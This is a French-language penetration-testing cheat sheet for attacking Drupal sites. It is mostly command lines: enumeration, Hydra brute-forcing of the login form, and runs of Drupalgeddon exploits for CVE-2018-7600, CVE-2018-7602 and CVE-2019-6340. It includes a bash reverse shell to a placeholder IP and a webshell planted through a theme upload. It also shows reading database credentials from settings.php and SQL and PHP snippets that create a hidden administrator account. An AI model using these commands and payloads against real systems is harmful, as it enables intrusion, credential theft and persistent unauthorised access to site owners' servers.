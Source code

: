 # Drupal

Drupal est un CMS puissant axé sur la sécurité et la flexibilité, particulièrement utilisé par les institutions gouvernementales et les grandes entreprises.

## 🔍 Énumération

### Identification
```bash
# Vérifier robots.txt
curl -s $URL/robots.txt | grep -i "drupal"

# Rechercher des marqueurs spécifiques
curl -s $URL | grep -i "drupal\|sites/all\|sites/default"

# Vérifier CHANGELOG.txt (souvent disponible)
curl -s $URL/CHANGELOG.txt | head -n 10
```

### Scan avec outils spécifiques
```bash
# Droopescan (outil spécialisé)
droopescan scan drupal --url $URL

# Drupalgeddon2 Scanner
ruby drupalscan.rb $URL

# OWASP CMSmap
cmsmap -F -d $URL
```

### Recherche de version
```bash
# Vérifier dans CHANGELOG.txt
curl -s $URL/CHANGELOG.txt | grep -i "drupal" | head -n 1

# Vérifier d'autres fichiers indicateurs
curl -s $URL/core/install.php | grep -i "drupal.\(version\|core\)"
curl -s $URL/core/COPYRIGHT.txt | grep -i "drupal"

# Vérifier headers
curl -sI $URL | grep -i "x-generator\|x-drupal"
```

## 🔨 Exploitation

### Brute Force d'identifiants
```bash
# Avec Hydra
hydra -l admin -P /usr/share/wordlists/rockyou.txt $URL_HOSTNAME http-post-form "/user/login:name=^USER^&pass=^PASS^&form_id=user_login_form:Sorry"

# Test avec identifiants par défaut
curl -s -c cookie.txt "$URL/user/login" -d "name=admin&pass=admin&form_id=user_login_form"
```

### Exploits connus (Drupalgeddon)
```bash
# Drupalgeddon2 (CVE-2018-7600) - Affecte Drupal 7.x < 7.58, 8.x < 8.3.9
python drupalgeddon2.py $URL

# Drupalgeddon3 (CVE-2018-7602) - Affecte Drupal < 7.59, < 8.5.3
ruby drupalgeddon3.rb $URL

# Drupal < 8.6.10 / < 8.5.11 (CVE-2019-6340)
python CVE-2019-6340.py $URL
```

### Exploitation de modules vulnérables
```bash
# Vérifier les modules installés
curl -s $URL | grep -o "sites/all/modules/[^/]*" | sort -u

# Services module (RCE via CSRF/SSRF)
# CVE-2020-13671
# https://www.exploit-db.com/exploits/49013
```

## 🔐 Post-exploitation

### Obtention d'un reverse shell
```bash
# Via Drupalgeddon (exemple pour Drupalgeddon2)
# Option dans l'exploit pour obtenir un shell
python drupalgeddon2.py $URL -c "bash -i >& /dev/tcp/VOTRE_IP/4444 0>&1"

# Si vous avez un accès admin:
# 1. Aller dans Appearance > Install new theme
# 2. Uploader un thème malveillant (.zip contenant un webshell)
# 3. Activer le thème
```

### Accès à la base de données
```bash
# Trouver les identifiants dans settings.php
# Pour Drupal 7:
cat sites/default/settings.php | grep -A 20 "database"

# Pour Drupal 8/9:
cat sites/default/settings.php | grep -A 20 "database.*\['default'\]"

# Se connecter à la base
mysql -h $DBHOST -u $DBUSER -p$DBPASS $DBNAME
```

### Création d'un super utilisateur
```bash
# Via SQL (Drupal 7)
INSERT INTO users (uid, name, pass, mail, status) VALUES (1000, 'hacker', '$S$DhC3UjNfRXYdDypHIDJvdj7xU89/D1hFMYhQQxvnYhZ.8ApWB5rz', 'hacker@example.com', 1);
INSERT INTO users_roles (uid, rid) VALUES (1000, 3);

# Via interface admin (modules PHP)
# 1. Activer le module PHP Filter
# 2. Créer du contenu avec PHP:
<?php
$username = 'hacker';
$password = 'password';
$email = 'hacker@example.com';
$new_user = array(
  'name' => $username,
  'pass' => $password,
  'mail' => $email,
  'status' => 1,
  'roles' => array(
    DRUPAL_AUTHENTICATED_RID => 'authenticated user',
    3 => 'administrator',
  ),
);
user_save(NULL, $new_user);
echo "User created!";
?>
```

## ⚠️ Erreurs courantes & astuces
- Drupal stocke sa configuration dans sites/default/settings.php
- Le hash de mot de passe Drupal est particulièrement robuste (algorithm phpass)
- Les versions de modules peuvent être différentes de la version du core
- Drupal peut limiter les tentatives de connexion échouées
- Vérifiez les fichiers de backup (.bak, ~, .old, .swp) dans les répertoires
- Les modules Services et REST API sont des cibles privilégiées